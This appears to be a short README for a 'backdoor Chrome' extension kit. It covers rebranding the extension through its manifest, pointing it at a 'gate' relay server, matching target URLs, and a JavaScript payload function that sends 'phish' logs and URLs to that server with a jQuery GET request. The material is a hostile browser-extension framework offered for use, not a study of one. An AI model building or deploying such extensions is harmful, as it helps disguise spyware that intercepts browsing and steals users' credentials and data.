 ![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Change Gate
```JavaScript
    var server_web = "http://localhost:8888/"
    var lock_page = "relais/lock.php"
    var gate_page = "relais/index.php"
```

## lock.php

Update lock page in 1

![Backdoor lock](http://s27.postimg.org/vahc0lb8z/lock.png)

## Check URL
```JavaScript
    // VERIFIED D'URL
    if(tabURL.indexOf('') !== -1 ) // url in ''
    {
        Payload_exemple();
    }
```

## Create payload
```JavaScript
    // PAYLOAD FUNCTION NEED HTTPS
    function Payload_exemple()
    {
        console.log('Injected here')
        var urls = "" // Var for URL
        var phish = "" // Var for logs 
        $.get(server_web+gate_page, { info: phish, url: urls } );
    }
```

## Go to web relais

```shell
Url = 
Login = 
```